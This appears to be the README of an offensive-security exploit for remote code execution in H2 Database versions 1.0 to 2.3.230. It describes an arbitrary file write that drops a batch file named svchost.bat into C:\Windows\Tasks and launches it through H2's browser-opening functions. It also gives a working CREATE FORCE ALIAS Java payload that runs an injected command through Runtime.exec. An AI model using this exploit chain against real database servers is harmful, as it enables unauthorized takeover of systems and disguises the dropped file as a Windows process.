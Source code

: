 # H2 Database - RCE  
H2 Database (1.0 ~ 2.3.230) - Remote Code Execution

H2 Database RCE - ViperX Offensive Security
  Date: 17/07/2024

The exploit flow operates with the following logic: 
~ for versions <(1.4) we create a 'dummy' table, and write the output log into a C:\Windows\Tasks\svchost.bat file by using ("SCRIPT SIMPLE NODATA NOSETTINGS TO '{BAT_FULLPATH}')
  
  '-> With this bat file we can perform remote code execution with Arbitrary File Writing vulnerability.
  
  '-> for old versions we open the .bat file with "org.h2.util.StartBrowser.openURL" and for the newest one "org.h2.tools.Server.openBrowser"

~ In case of versions >(1.4), we just perform JAVA Code Execution through 'CREATE ALIAS' function:
```

  '->  CREATE FORCE ALIAS CMD_INJECT AS $$
  void pwshInject() throws Exception {
      Runtime.getRuntime().exec("%s");
  }
  $$;
```
